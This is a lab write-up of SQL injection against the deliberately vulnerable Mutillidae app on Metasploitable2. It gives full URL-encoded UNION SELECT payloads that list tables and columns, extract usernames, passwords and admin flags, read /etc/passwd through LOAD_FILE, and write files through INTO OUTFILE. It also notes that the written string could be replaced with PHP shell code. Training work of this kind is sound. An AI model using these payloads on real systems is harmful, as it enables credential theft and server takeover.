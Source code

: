 http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/ad80090c-3322-437b-ab65-69dc2851924c)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/6cab4ea4-bfcf-4946-b1de-96d7534315e0)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/bdee5aa5-6b65-456c-a0bc-fa29270604dd)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/b4542de0-1b21-4150-a30d-9454f4393705)

Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/048b7d91-843a-4183-9fe8-0d939e1ad69a)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
